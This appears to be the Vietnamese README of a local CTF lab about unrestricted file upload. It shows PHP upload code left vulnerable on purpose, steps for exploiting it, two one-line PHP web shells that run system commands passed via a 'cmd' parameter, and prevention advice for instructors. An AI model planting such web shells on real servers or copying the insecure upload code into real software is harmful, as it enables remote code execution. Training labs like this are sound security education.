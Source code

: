 
# 🛡️ ChronoSoft Internal Upload Portal (CTF Lab - File Upload)

**Môi trường thực hành mô phỏng lỗ hổng File Upload trong ứng dụng web.**  
- ChronoSoft Internal Upload Portal là một CTF Lab được thiết kế đặc biệt dành cho học viên, chuyên gia bảo mật, hoặc những ai đang theo đuổi con đường trở thành bug bounty hunter. Mục tiêu của môi trường này là giúp người học nắm bắt một cách trực quan và thực tiễn về các lỗ hổng thường gặp trong chức năng tải tệp tin của các ứng dụng web.
- Trong môi trường này, bạn sẽ được tiếp cận với các tình huống giả lập sát với thực tế – nơi mà một sơ suất nhỏ trong xử lý file upload có thể dẫn đến những rủi ro nghiêm trọng như: tải tệp độc hại, thực thi mã từ xa (RCE), vượt qua kiểm tra loại file (MIME bypass), hoặc leo thang đặc quyền thông qua web shell.
- Lab này không chỉ mang tính chất thử thách mà còn có tính hướng dẫn cao. Mỗi phần đều giúp bạn từng bước xây dựng tư duy phân tích, phát hiện và khai thác lỗ hổng, từ cơ bản đến nâng cao. Đây là một công cụ học tập lý tưởng trong các khóa đào tạo an ninh mạng hoặc trong quá trình tự học.
- Hãy sẵn sàng để thử sức, tư duy như một attacker, và nâng cao kỹ năng như một defender thực thụ!
---

## 📄 Mô tả hệ thống

Trang HTML chính cho phép người dùng tải lên tệp tin nội bộ (giả lập tài liệu nhân sự) qua form đơn giản:

```html
<form method="POST" enctype="multipart/form-data">
    <input type="file" name="file" required />
    <input type="submit" value="Upload Document" />
</form>
```

Mã PHP phía server thực hiện:

```php
$upload_dir = 'upload/';
$upload_file = $upload_dir . basename($_FILES['file']['name']);
move_uploaded_file($_FILES['file']['tmp_name'], $upload_file);
```

---

## ⚠️ Lỗ hổng bảo mật

Chức năng upload này có những điểm yếu nghiêm trọng:

- ❌ Không kiểm tra định dạng (extension) của file
- ❌ Không xác thực MIME type
- ❌ Không lọc tên file nguy hiểm (như `.php`, `.exe`)
- ❌ Không đổi tên file khi lưu (có thể bị ghi đè hoặc dự đoán)
- ❌ Thư mục lưu file có thể truy cập trực tiếp (`upload/`)

📌 Hậu quả: Kẻ tấn công có thể upload một **web shell** (ví dụ: `shell.php`) và truy cập qua trình duyệt để thực thi mã trên server.

---

## 🎯 Mục tiêu của học viên

1. Thử upload file `.php` chứa mã thực thi
2. Truy cập đường dẫn `/upload/[filename]` để kiểm tra thực thi
3. Nếu thành công, thử gửi các lệnh hệ thống (ví dụ: `id`, `ls`, v.v.)
4. Ghi lại kết quả và học cách phòng chống lỗi này

---

## 🚀 Hướng dẫn triển khai

```bash
docker-compose up --build
```

Sau khi chạy, truy cập trình duyệt tại:

🔗 http://localhost:8080

---

## 🧪 Gợi ý khai thác

| Hành động | Gợi ý |
|-----------|-------|
| Upload shell | Dùng file như `shell.php`, `cmd.php`, hoặc script đơn giản |
| Truy cập file | Truy cập `http://localhost:8080/upload/shell.php` |
| Gửi lệnh | Nếu file thực thi, thử truyền lệnh qua GET: `?cmd=id` |

---

## 📦 Một số mã shell cơ bản

```php
<?php system($_GET['cmd']); ?>
```

```php
<?php echo shell_exec($_REQUEST["cmd"]); ?>
```

---

## 📌 Hướng dẫn phòng chống (dành cho giảng viên)

- Chỉ cho phép một số định dạng tệp tin cụ thể (PDF, PNG, DOCX)
- Kiểm tra MIME type, magic bytes
- Đổi tên file khi lưu (sử dụng UUID, hash + timestamp)
- Không cho phép truy cập trực tiếp thư mục lưu trữ
- Cấm thực thi file trong thư mục upload (qua cấu hình `.htaccess` hoặc web server)

---

## 📬 Liên hệ (giả lập)

📧 `huyquach1703@gmail.com`

💬 Discord: [BanaN0Nam3](https://discord.gg/JuFPnJvJyy)

📱 Zalo: [[HUYQA]-TRAODOI-HOCTAP](https://zalo.me/g/eooety673)

📺 YouTube: [Cộng đồng hacker mũ trắng](https://www.youtube.com/@congdonghackermuxtrang)

---

## ⚠️ Cảnh báo

> Đây là môi trường chứa lỗ hổng có chủ đích.  
> Tuyệt đối không triển khai trên môi trường thật.  
> Chỉ sử dụng cho mục đích giáo dục và thử nghiệm trong phạm vi kiểm soát.`
